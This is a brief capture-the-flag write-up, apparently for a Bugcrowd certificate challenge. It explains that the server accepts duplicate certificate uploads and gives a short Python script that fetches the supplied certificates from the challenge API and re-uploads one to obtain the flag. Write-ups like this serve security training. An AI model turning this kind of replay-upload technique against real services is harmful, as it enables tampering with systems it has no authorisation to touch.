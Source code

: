 ```yaml
---
ai_date: '2025-04-27 05:13:36'
ai_summary: Unchecked certificate upload vulnerability allowed replacing a certificate.
ai_tags:
- ssl
- upload
- certificates
created: 2024-08-08T09:33
points: 500
updated: 2024-08-17T20:13
---
```


The server does not check for duplicate certificates, which means I can just upload one of the certs given.

```python
import requests
from io import BytesIO
certs = requests.get('https://bugcrowd-certificate-of-completion.chals.io/api').json()
print(requests.put('https://bugcrowd-certificate-of-completion.chals.io/api', files={'file': BytesIO(certs[0]['content'].encode())}).text)
```

```flag
flag{non_random_prime_means_rsa_go_brrrr}
```